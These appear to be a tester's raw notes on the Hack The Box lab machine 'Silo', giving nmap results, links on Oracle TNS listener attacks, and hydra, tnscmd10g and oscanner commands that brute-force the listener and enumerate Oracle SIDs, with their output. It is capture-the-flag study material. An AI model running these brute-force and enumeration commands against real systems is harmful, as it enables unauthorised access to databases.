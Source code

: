 PORT    STATE SERVICE
139/tcp open  netbios-ssn
|_smb-enum-services: ERROR: Script execution failed (use -d to debug)
445/tcp open  microsoft-ds
|_smb-enum-services: ERROR: Script execution failed (use -d to debug)

Nmap done: 1 IP address (1 host up) scanned in 20.22 seconds



1521/tcp  open     oracle-tns   Oracle TNS listener 11.2.0.2.0 (unauthorized)

https://www.rapid7.com/db/modules/auxiliary/scanner/oracle/tnspoison_checker/


https://www.cvedetails.com/vulnerability-list/vendor_id-93/product_id-467/version_id-107266/Oracle-Database-Server-11.2.0.2.html



https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener
nmap --script "oracle-tns-version" -p 1521 -T4 -sV 10.10.10.82

hydra -P ~/htb/rockyou.txt -t 32 -s 1521 10.10.10.82 oracle-listener


kali@kali:~/htb/boxes/silo/10.10.10.82$ tnscmd10g status-p 1521 -h 10.10.10.82
sending (CONNECT_DATA=(COMMAND=status-p)) to 10.10.10.82:1521
writing 91 bytes
reading
.a......"..U(DESCRIPTION=(ERR=12508)(VSNNUM=186647040)(ERROR_STACK=(ERROR=(CODE=12508)(EMFI=4))))



kali@kali:~/htb/boxes/silo/10.10.10.82$ hydra -L /opt/lists/sids-oracle.txt -s 1521 10.10.10.82 oracle-sid
Hydra v9.2-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-26 10:41:55
[DATA] max 16 tasks per 1 server, overall 16 tasks, 737 login tries (l:737/p:1), ~47 tries per task
[DATA] attacking oracle-sid://10.10.10.82:1521/
[1521][oracle-sid] host: 10.10.10.82
[1521][oracle-sid] host: 10.10.10.82   login: CLRExtProc
[1521][oracle-sid] host: 10.10.10.82   login: PLSExtProc
1 of 1 target successfully completed, 3 valid passwords found
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-26 10:46:37



git clone https://gitlab.com/kalilinux/packages/oscanner.git


oscanner -s 10.10.10.82 -P 1521



